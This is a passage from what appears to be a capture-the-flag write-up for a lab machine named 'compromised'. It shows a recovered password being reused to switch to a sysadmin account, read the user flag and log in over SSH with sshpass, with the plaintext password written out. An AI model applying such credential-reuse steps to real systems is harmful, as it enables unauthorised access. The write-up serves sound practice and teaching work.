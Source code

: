 That password works for the user on the box, sysadmin:

```bash
mysql@compromised:~$ su sysadmin -
Password: 
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
sysadmin@compromised:/var/lib/mysql$
```

And I can grab user.txt:

```bash
sysadmin@compromised:~$ cat user.txt
8fa1e68a************************
```

This password also works for SSH:

```bash
root@kali# sshpass -p '3*NLJE32I$Fe' ssh sysadmin@10.10.10.207
Last login: Wed Jan 20 18:37:38 2021 from 10.10.14.4
sysadmin@compromised:~$
```




